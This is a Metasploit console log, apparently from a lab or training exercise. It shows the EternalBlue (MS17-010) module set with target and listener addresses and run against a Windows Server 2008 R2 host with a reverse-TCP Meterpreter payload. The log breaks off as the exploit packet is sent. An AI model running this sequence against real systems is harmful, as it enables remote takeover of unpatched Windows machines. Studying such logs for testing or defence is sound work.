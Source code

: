 
Interact with a module by name or index. For example info 5, use 5 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 > use 2
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.30.91.205    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.150.150.242
RHOSTS => 10.150.150.242
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.66.67.46
LHOST => 10.66.67.46
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.66.67.46:4444
[*] 10.150.150.242:445 - Executing automatic check (disable AutoCheck to override)
[*] 10.150.150.242:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.150.150.242:445    - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Enterprise 7601 Service Pack 1 x64 (64-bit)
[*] 10.150.150.242:445    - Scanned 1 of 1 hosts (100% complete)
[+] 10.150.150.242:445 - The target is vulnerable.
[*] 10.150.150.242:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.150.150.242:445    - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Enterprise 7601 Service Pack 1 x64 (64-bit)
[*] 10.150.150.242:445    - Scanned 1 of 1 hosts (100% complete)
[*] 10.150.150.242:445 - Connecting to target for exploitation.
[+] 10.150.150.242:445 - Connection established for exploitation.
[+] 10.150.150.242:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.150.150.242:445 - CORE raw buffer dump (53 bytes)
[*] 10.150.150.242:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 10.150.150.242:445 - 0x00000010  30 30 38 20 52 32 20 45 6e 74 65 72 70 72 69 73  008 R2 Enterpris
[*] 10.150.150.242:445 - 0x00000020  65 20 37 36 30 31 20 53 65 72 76 69 63 65 20 50  e 7601 Service P
[*] 10.150.150.242:445 - 0x00000030  61 63 6b 20 31                                   ack 1
[+] 10.150.150.242:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.150.150.242:445 - Trying exploit with 12 Groom Allocations.
[*] 10.150.150.242:445 - Sending all but last fragment of exploit packet
